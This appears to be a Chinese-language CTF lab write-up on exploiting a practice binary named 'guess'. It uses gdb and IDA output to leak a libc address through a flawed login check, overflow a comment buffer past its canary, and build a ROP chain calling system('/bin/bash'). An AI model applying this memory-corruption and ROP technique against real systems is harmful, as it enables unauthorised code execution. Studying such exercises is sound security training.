

# topic2: a try to CTF(catch the flag)

## pre-knowledge

内存空间中的 **地址**（编号）：如 0x0001，0x0002 等等，一个 1 表示的实际上是 1 Byte（因为最小的单位就是 1 字节），+1就是+1Byte

> 而对于之前 RISCV 中指令的存储，就要按照定义来，如 0x6B 就是一个字节（一个16进制位=4bit），区别在于它存储的实际上是 **内容**

换句话来说，对于一个16进制数

- 当它作为用来索引的**地址**时，+1 就是 +1Byte，最小单位是一个字节
- 当它作为被存储的**内容**时，按照标准的定义，两个16进制位表示一字节

你应该熟练掌握 gdb 的基本操作，以及如何利用 gdb 进行调试，打印栈/寄存器/内存等信息

> `handle SIGALRM ignore` 可以防止 gdb 中断提前退出
>
> `gdb attach +pid` 用来调试正在运行的进程，比如 `gdb attach $(pidof guess)`

注意，进程中的栈空间是从高地址向低地址增加的，栈顶是低地址，栈底是高地址


C 语言中的[通用寄存器](https://zhuanlan.zhihu.com/p/272135463) (64位)

- rsp: stack pointer，指向栈顶
- rbp: base pointer，指向栈底
- rax: return value of function，也用来计算加法
- rip: instruction pointer / return address，作为 CPU 执行的
- rbx: callee saved register，保存数据

作为函数的参数：

- rdi: first argument
- rsi: second argument
- rdx: third argument
- rcx: fourth argument
- r8: fifth argument
- r9: sixth argument

...

函数返回时栈帧如何修改？

1. rsp 移动到当前函数的 rbp
2. rbp 移动到调用函数的 rbp
3. rsp++，上移 1 到 return address
4. 执行 ret，即 pc = $rsp, rsp++

## target

`./guess`

try to login into the `guess` and launch a bash inside it.

`file guess` can get the type of `guess`: ELF

注意：下面大部分 gdb 中读取到的地址都是动态的！

## step

First, use IDA to decompile the `guess` file, and you can see the **pseduo-code** and assembly.

### For login

```c
unsigned __int64 sub_A43()
{
  int i; // [rsp+4h] [rbp-22Ch]
  char buf[256]; // [rsp+10h] [rbp-220h] BYREF
  char v3[16]; // [rsp+110h] [rbp-120h] BYREF
  FILE *v4; // [rsp+120h] [rbp-110h]
  unsigned __int64 v5; // [rsp+218h] [rbp-18h]

  v5 = __readfsqword(0x28u);
  v4 = stderr;
  printf("Account: ");
  read(0, buf, 0x100uLL);
  printf("Password: ");
  read(0, v3, 0x100uLL);
  for ( i = 0; i < strlen(buf); ++i )
  {
    if ( buf[i] != v3[i] )
    {
      puts("Login fail");
      return __readfsqword(0x28u) ^ v5;
    }
  }
  sub_91A();
  return __readfsqword(0x28u) ^ v5;
}
```

根据反编译的结果，可以发现伪代码利用的是按位比较，也就是只要 accout 与 password 相同即可登录

> 一个bug：如果 account 和 password 都是 aaaa，会返回 fail；但是如果是 aaaaa，就能登录成功
>
> 解释：
>
> 首先 strlen 会读取直到 '\0'
>
> x86-64的地址空间是 48位=6 Byte，aaaa+'\n' 只有5 Byte，所以会读取到第6个字节的值（7，8个是'\0'），而这个值是随机的，所以会导致比较失败。而 aaaaa+'\n' 则有6 Byte，所以不会读取到随机值

注意到循环终止条件是 `i < strlen(buf)`，那么我们可以暴力枚举 account 的后半段与 password 后的内存进行比较，通过是否登录成功，来求出 password 后内存的值

通过尝试我们知道 password 后的内存恰好是 libc 中的某个地址（7f 开头），那么我们在 gdb 中打印出这段内存的起始地址，再 `p system`，就可以直到二者的相对距离（这是一个固定值）



```bash
(gdb) p system
$1 = {int (const char *)} 0x7f4edf7d1290 <__libc_system>

bt

#0  0x00007f4edf88cfd2 in __GI___libc_read (fd=0, buf=0x7ffee55e4190, nbytes=15) at ../sysdeps/unix/sysv/linux/read.c:26
#1  0x000055bdfd200a1d in ?? ()
#2  0x000055bdfd200be2 in ?? ()
#3  0x00007f4edf7a3083 in __libc_start_main (main=0x55bdfd200b62, argc=1, argv=0x7ffee55e42c8, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, 
    stack_end=0x7ffee55e42b8) at ../csu/libc-start.c:308
#4  0x000055bdfd20083a in ?? ()

b *0x000055bdfd200ad3   # 在 IDA 中查看到 read(0,v3,0x100ULL) 的地址末尾为 ad3
c
x/1xg $rsi+16           # 1xg 表示把当前地址后八字节的内容当成一个值读出来，以16进制输出，八字节（64位）恰好包括一个地址的长度（实际上是48位）

# 0x7ffee55e40a0: 0x00007f4edf96c5c0
```

因此 libc 的某个地址的地址为 $rsi+16，内容为 0x00007f4edf96c5c0

其与 system 的相对距离为 0x00007f4edf96c5c0 - 0x7f4edf7d1290 = 0x00000000001b9a30，这是固定的

### For comment

注释后面的两个 [rsp+10h] [rbp-50h] 实际上指的是同一个位置

```c
unsigned __int64 sub_91A()
{
  char v1[64]; // [rsp+10h] [rbp-50h] BYREF
  int i; // [rsp+50h] [rbp-10h]
  unsigned __int64 v3; // [rsp+58h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Welcome, Boss. Leave your valuable comments: ");
  for ( i = 0; i != 65; ++i )
  {
    read(0, &v1[i], 1uLL);
    if ( v1[i] == 10 )
      break;
  }
  return __readfsqword(0x28u) ^ v3;
}
```

根据 C 变量定义的规则，`i` 在内存中的位置必定紧跟在 `v1[64]` 之后。

注意到循环的终止条件是 `i != 65`，而当 `i = 64` 时, `buf` 越界, `read()` 就会读取到 `i` 的值。此时我们只需要让 `i` 比64大，循环就不会结束。接下来就可以对文件进行修改

接下来需要知到从 read 到 return address 的位置差，可以利用 GDB 来得到

首先在一个 bash 中 `./guess`，然后再在另一个 bash 中利用 `gdb attach $(pidof guess)` 进入 gdb，再进行如下操作：

```bash
gdb attach $(pidof guess)

bt    # 打印当前栈

# output
#0  0x00007fc128000fd2 in __GI___libc_read (fd=0, buf=0x7ffe175ab290, nbytes=15) at ../sysdeps/unix/sysv/linux/read.c:26
#1  0x00005587c7000a1d in ?? ()
#2  0x00005587c7000be2 in ?? ()
#3  0x00007fc127f17083 in __libc_start_main (main=0x5587c7000b62, argc=1, argv=0x7ffe175ab3c8, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, 
    stack_end=0x7ffe175ab3b8) at ../csu/libc-start.c:308
#4  0x00005587c700083a in ?? ()

# 以 7f 开头的是 libc 中的函数，以 55 开头的则是 guess 中的函数

b *0x0000555d28600976   # 在 IDA 中查看到 read (call _read) 的地址末尾为 976
c
p/x $rsi                  # read 的第二个参数 buf 的地址

# 0x7ffe175ab020

b *0x0000555d286009bf   # ret 的地址末尾为 9bf
c
p/x $rsp

# 0x7ffe175ab078
```

那么二者的距离为 0x58，记为 dis，也就是在修改内存时必须跳过这个 dis

### Launch a bash inside the program

相当于在原本的代码中加入 `system("/bin/bash")` 的指令，但因为我们无法修改代码，所以我们需要找到 libc 中 system 函数的汇编的 **地址**，然后调用它

> 实际上就是通过寻址，在当前程序内获得最高权限，可以随意修改文件

执行 system，我们通过 ROP: return oriented programming 来实现

example:

> 假设我们要执行 f(A)，那么接下来应该在执行原函数 ret 的地址后面，依次写入 
>
> 1. 一条gadget 指令： `pop rdi;ret` 的地址（通过 [`ROPgadget`](https://blog.csdn.net/weixin_45556441/article/details/114631043) 提前得到）
> 2. A 的地址
> 3. f 的地址
>
> 执行流程如下：
>
> 1. 原函数的 ret 执行，pc 移动到 gadget 指令，rsp上移到 A 的地址
> 2. gadget 指令内的 pop rdi 执行，A的地址存入rdi，rsp 上移到 f 的地址；再执行 ret，pc 移动到 f 的地址
> 3. f 执行

那么，我们只需要把 f 替换成 libc 的 system 地址，A替换成 shell 即可

---

具体的寻址操作（提前在本地完成）：

调用 ROPgadget 来查找合适的 gadget，以下的地址是固定的

```bash
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 --only 'pop|ret' | grep rdi  

# 0x00000000000248f2 : pop rdi ; pop rbp ; ret
# 0x0000000000023b6a : pop rdi ; ret

# 0x0000000000022679 : ret
```

---

调用 `ldd` 以列出 guess 需要的动态链接库

返回的是相对的地址，绝对地址是动态的，即 libc 的地址是 **动态** 的

```bash
ldd guess

# linux-vdso.so.1 (0x00007fff9a7eb000)
# libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd1c686c000)
# /lib64/ld-linux-x86-64.so.2 (0x00007fd1c6c6c000)
```

## Total solution in `hack.py`

1. 用16个字符填充account与password
2. 利用相等才会登录成功的特性，枚举account后的6个字节，进而得到password后存储的某个libc的地址（实际上是 `<_IO_2_1_stderr_>`），再与之前得到的 system 函数地址相减，得到相对距离
3. 那么就可以得到此次运行时，system 函数的实际地址，以及调用 shell 的地址
4. 选择两个 gadget 用于 ROP，一个用于调用 system，一个用于调用 shell
5. login 成功后，在 welcome 处先输入 64 个字符填满 v1，然后加上 read 和 return 的距离跳过中间的内存，防止触发 canary 保护
6. 到达 ret 处，依次写入 gadget1，shellcode，gadget2，system
7. 最后输入 `'\0xa'`，就是 10，让程序停止
